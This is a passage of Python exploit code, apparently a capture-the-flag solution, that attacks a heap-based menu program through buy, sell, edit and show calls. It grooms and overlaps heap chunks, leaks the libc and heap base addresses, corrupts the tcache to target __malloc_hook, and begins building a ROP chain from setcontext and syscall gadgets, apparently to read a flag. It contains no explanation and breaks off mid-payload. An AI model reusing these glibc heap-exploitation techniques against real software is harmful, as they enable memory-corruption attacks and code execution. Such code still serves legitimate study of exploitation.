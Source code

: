 ```python
    sell(0)

    buy(7, 0x410, "xxx")
    buy(0, 0x80, "aaa")
    buy(1, 0x800, "bbb")
    buy(2, 0x80, "aaa")
    buy(3, 0x500, "bbb")
    buy(4, 0x80, "aaa")
    buy(5, 0x510, 0x500*'a'+p64(0x1350)+p64(0xa1))
    buy(6, 0x80, "xxx")
    edit(0, "\x00"*0x80+p64(0)+p64(0x1351)+'\n')
    sell(1)
    buy(1, 0x1340, 'z'*0x800+p64(0)+p64(0x91)+'x'*0x80+p64(0)+p64(0x511)+'x'*0x500+p64(0)+p64(0x91)+'x'*0x80+p64(0)+p64(0x521)+'x'*0x510)
    sell(3)
    sell(5)
    show(1)
    r.recvuntil('x'*0x80)
    r.recv(0x10)
    libc.address = u64(r.recv(8)) - 0x1e4ca0
    print "libc.address:", hex(libc.address)
    heap_leak = u64(r.recv(8))
    print "heap_leak:", hex(heap_leak)
    heap_base = heap_leak-0x1120-0x420
    print "heap_base:", hex(heap_base)
    buy(3, 0x500, "ccc")
    buy(5, 0x510, 0x500*'c'+p64(0x1350)+p64(0xa1))
    sell(3)
    sell(1)
    sell(5)
    sell(7)
    # target_addr = libc.address + 0x1e7600 - 0x10 # global_max_fast
    # target_addr = libc.symbols["_IO_list_all"] - 0x10 # _IO_list_all
    target_addr = libc.address + 0x1ec4b0 - 0x10 # tcache
    # target_addr = 0xdeadbeef

    payload = "z"*0x800+p64(0)+p64(0x91)+'x'*0x80
    payload += p64(0)+p64(0x511)+p64(libc.address+0x1e50d0)+p64(target_addr)+p64(heap_base+0xb80+0x420)*2+'x'*0x4e0
    payload += p64(0)+p64(0x90)+'x'*0x80
    payload += p64(0)+p64(0x521)+p64(libc.address+0x1e4ca0)+p64(heap_base+0x250)
    payload = payload.ljust(0x1340,"x")

    buy(1, 0x1340, payload)
    buy(7, 0x410, "xxx")
    sell(1)

    target = libc.symbols["__malloc_hook"]
    # target = libc.symbols["__free_hook"]
    fake_tcache = p64(0)*4+p64(1)+p64(0)*35+p64(target)+p64(0)*31
    
    xchgeaxedi = 0x145585 + libc.address
    poprdxrsi = 0x12bdc9 + libc.address
    poprsi = 0x26f9e + libc.address
    poprdi = 0x26542 + libc.address
    syscall = 0xcf6c5 + libc.address
    poprax = 0x47cf8 + libc.address
    new_stack = heap_base + 0x19b0-0x230+0x50+0x100
    flag_str = heap_base + 0x19b0-0x230+1
    flag_buf = heap_base + 0x19b0
    setcontext_addr = heap_base + 0x19b0-0x230+0x50
    payload = "z"*0x800+p64(0)+p64(0x91)+'x'*0x80
```